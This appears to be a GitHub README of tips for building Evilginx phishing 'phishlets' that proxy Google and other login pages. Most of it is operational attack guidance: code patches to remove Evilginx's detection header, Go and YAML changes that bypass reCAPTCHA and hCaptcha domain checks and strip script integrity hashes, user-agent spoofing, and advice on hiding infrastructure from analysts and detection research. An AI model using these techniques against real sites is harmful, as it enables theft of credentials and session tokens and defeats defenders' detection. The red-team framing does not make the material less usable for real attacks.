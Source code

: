 # Google-phishlet-
Phishlets Developement Tips
Always Use Debug Mode in evilginx During Testing
Not Everything is Working Here, Use these Phishlets to learn and to Play with Evilginx.
Be Creative when it comes to bypassing protection.
Javascript Injection can fix a lot of issues and will make your life easier during phishing engagements.
Make sure to check Evilginx Docs here
Securing Evilginx Infra Tips
Note: Phishing Engagement Infra Setup Guide .. here

Some tips and suggestions to help secure your Evilginx Infrastructure.

Remove IOCs (X-Evilginx header and Default Cert Details)
Modify Unauth redirect static contents
Modify code to request wildcard certificates for root domain from Let'sEncrypt other than requesting for each subdomains (As mentioned in Kuba's blog) - Check this repo for reference https://github.com/ss23/evilginx2
Put evilginx behind a proxy to help against TLS fingerprinting (JA3 and JA3S)
Use cloudflare in between if possible/feasible (You have to configure the SSL Settings correctly, change it to Full in cloudflare settings)
Use some known ASN blacklist to avoid getting detected like here (https://github.com/aalex954/evilginx2-TTPs#ip-blacklist)
Reduce the Number of proxyhosts in phishlet if possible to reduce content loading time.
Host Evilginx at Azure and use their domain (limit proxy host in phishlet to 1 or find a way , may be create multiple azure sub domains and try with that)
Add some sub_filters to modify the content of the pages to avoid content based detections, like (Favicon, form title font or style, or anything which seems relevant)
Block the feedback/telemetry/logs/analytics subdomains using the phishlet sub_filters which can log the domain or may help later on analysis.
See if js-injected is static or dynamic , if static modify the evilginx js-inject code to create dynamic/obfuscated version of your js for each user/target.
Make sure to not leak your Evilginx infra IP, Check the DNS history to make sure its not stored anywhere (Analysts may look for older DNS Records of the domain)
Be aware of this research : https://catching-transparent-phish.github.io/catching_transparent_phish.pdf , repo - https://catching-transparent-phish.github.io/
Some Less Known Techniques
Using Evilginx2 Phishlets with Evilginx3
There's been some updates regarding how js_inject used to work in evilginx2, Check more here.
To support the evilginx2 phishlets which had js_inject , You need to either modify its trigger_paths or you can just modify the evilginx3 Source code to support it.
To know more Check this
Modifying core\phishlet.go to allow regex in trigger_paths for js_inject.
\\Replace line (line 909)
re, err := regexp.Compile("^" + d + "$")

\\with line
re, err := regexp.Compile(d)
Google Recaptcha Bypass : Method-1 (by @Desire)
Google recaptcha encodes domain in base64 and includes it in co parameter in GET request.

For Example in safe-domain (Demo) Login.

https://www.google.com/recaptcha/enterprise/anchor?ar=1&k=6LePlpgbAAAAAPlPfzzXnJ1lrMTqRWgouzDcSd3b&co=aHR0cHM6Ly9hY2NvdW50cy5zYWZlLWRvbWFpbi5jb206NDQz&hl=en&v=vP4jQKq0YJFzU6e21-BGy3GP&size=invisible&cb=knko72z68i8y
Here the parameter co contains string co=aHR0cHM6Ly9hY2NvdW50cy5zYWZlLWRvbWFpbi5jb206NDQz which is the base64 encoding of https://accounts.safe-domain.com:443

In case if we use MITM in between with the mitm domain fake-domain.com, the value for the co parameter will be set to https://accounts.fake-domain.com:443 encoded in base64 aHR0cHM6Ly9hY2NvdW50cy5mYWtlLWRvbWFpbi5jb206NDQzCg which is not a valid domain , So we need to modify this parameter value to the original domain https://accounts.safe-domain.com:443 base64 encoded aHR0cHM6Ly9hY2NvdW50cy5zYWZlLWRvbWFpbi5jb206NDQz

Here is the work around code to implement this. Replace the code in evilginx2 core/http_proxy.go line 409

				// patch GET query params with original domains & bypass recaptcha
				if pl != nil {
					qs := req.URL.Query()
					if len(qs) > 0 {
						for gp := range qs {
							for i, v := range qs[gp] {
								qs[gp][i] = string(p.patchUrls(pl, []byte(v), CONVERT_TO_ORIGINAL_URLS))
							if qs[gp][i] == "aHR0cHM6Ly9hY2NvdW50cy5mYWtlLWRvbWFpbi5jb206NDQzCg" { // https://accounts.fake-domain.com:443
								qs[gp][i] = "aHR0cHM6Ly9hY2NvdW50cy5zYWZlLWRvbWFpbi5jb206NDQz" // https://accounts.safe-domain.com:443
							}
							}
						}
						req.URL.RawQuery = qs.Encode()
					}
				}
Google Recaptcha Bypass : Method-2
This method works by modifying the javascript code responsible to generate the base64 string which contains the domain name.
Subfilter can be modified accordingly based on the target site.
proxy_hosts:
  - {phish_sub: 'google', orig_sub: 'www', domain: 'google.com', session: true, is_landing: false, auto_filter: true}
  - {phish_sub: 'gstatic', orig_sub: 'www', domain: 'gstatic.com', session: true, is_landing: false, auto_filter: true}

sub_filters:
  - {triggers_on: 'www.google.com', orig_sub: 'www', domain: 'google.com', search: "integrity[ \t]*=[ \t]*[\"']sha384-.{64}[\"']", replace: 'integrity=""', mimes: ['text/javascript']}
  - {triggers_on: 'www.gstatic.com', orig_sub: 'accounts', domain: 'safe-domain.com', search: "\\(window.location.href\\)", replace: '(window.location.href.replace("{hostname}", "{orig_hostname}"))', mimes: ['text/javascript']}
hCaptcha Bypass
hCaptcha does not validate the hostname of the website where it is loaded. However, during server-side verification of the CAPTCHA response, hCaptcha includes the hostname of the site where the challenge was completed. Since some websites may validate this hostname, tricking hCaptcha into believing it was loaded on the original hostname can be beneficial.

proxy_hosts:
  - {phish_sub: 'hcaptcha', orig_sub: '', domain: 'hcaptcha.com', session: true, is_landing: false, auto_filter: false}

sub_filters:
  - {triggers_on: 'hcaptcha.com', orig_sub: '', domain: 'democaptcha.com', search: 'window.location.hostname', replace: 'window.location.hostname.replace("{hostname}", "{orig_hostname}")', mimes: ['application/javascript']}
Evilginx3 Easter Egg Patch (X-Evilginx Header)
Evilginx3 contains easter egg code which adds a X-Evilginx header with each request.
This header contains the Attacker Domain name. So it can be used for detection.
To remove the Easter egg from evilginx just remove/comment below mentioned lines from the core/http_proxy.go file.
// Line 179
o_host := req.Host

// Line 330
req.Header.Set(p.getHomeDir(), o_host)

// Line 512
req.Header.Set(p.getHomeDir(), o_host)

// Line 1495
func (p *HttpProxy) getHomeDir() string {
	return strings.Replace(HOME_DIR, ".e", "X-E", 1) 
}
Evilginx2 Easter Egg Patch (X-Evilginx Header)
Evilginx2 contains easter egg code which adds a X-Evilginx header with each request.
This header contains the Attacker Domain name. So it can be used for detection.
To remove the Easter egg from evilginx just remove/comment below mentioned lines from the core/http_proxy.go file.
// Line 183
egg2 := req.Host

// Line 350
hg := []byte{0x94, 0xE1, 0x89, 0xBA, 0xA5, 0xA0, 0xAB, 0xA5, 0xA2, 0xB4}  

// Line 407
req.Header.Set(string(hg), egg2)  

// Line 377 to 379
for n, b := range hg {
		hg[n] = b ^ 0xCC
	}
  
// Line 562 to 566
e := []byte{208, 165, 205, 254, 225, 228, 239, 225, 230, 240}
for n, b := range e {
		e[n] = b ^ 0x88
}
req.Header.Set(string(e), e_host)

// Line 1456 to 1462
func (p *HttpProxy) cantFindMe(req *http.Request, nothing_to_see_here string) {
	var b []byte = []byte("\x1dh\x003,)\",+=")
	for n, c := range b {
		b[n] = c ^ 0x45
	}
	req.Header.Set(string(b), nothing_to_see_here)
}

// Line 580
p.cantFindMe(req, e_host)


Add Custom User Agent
Few sites have protections based on user agent, and relaying on javascript injections to modify the user agent on victim side may break/slow the attack process.
Custom User Agent Can be Added on the fly by replacing the User-Agent Header in each requests.
Below is the work Around Code to achieve this. You can add code in evilginx2 core/http_proxy.go file below line 395.
				// Replace Any User Agent With Firefox UserAgent
				useragent := req.Header.Get("User-Agent")
				if useragent != "" {                                   
							req.Header.Set("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0")
							log.Debug("[%d] Injected User Agent : Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/96.0 ", ps.Index)
				}

Error Resolving
Error-1 : (Failed to start nameserver on port 53)
METHOD 1 :-

Follow These Commands & Then Try Relaunching Evilginx
sudo service systemd-resolved stop
nano /etc/resolv.conf
Then change nameserver 127.x.x.x to nameserver 8.8.8.8
Then save the file (By pressing CTRL+X and pressing Y followed by enter)
METHOD 2 :-

Check if All the neccessary ports are not being used by some other services.
Ports Like: 80, 53, 443
Find Those Ports And Kill those Processes
sudo netstat -ptnl | grep 53
sudo kill PID
Where PID is Process ID
Similarly Find And Kill Process On other Ports That are in use.
Now Try To Run Evilginx and get SSL certificates
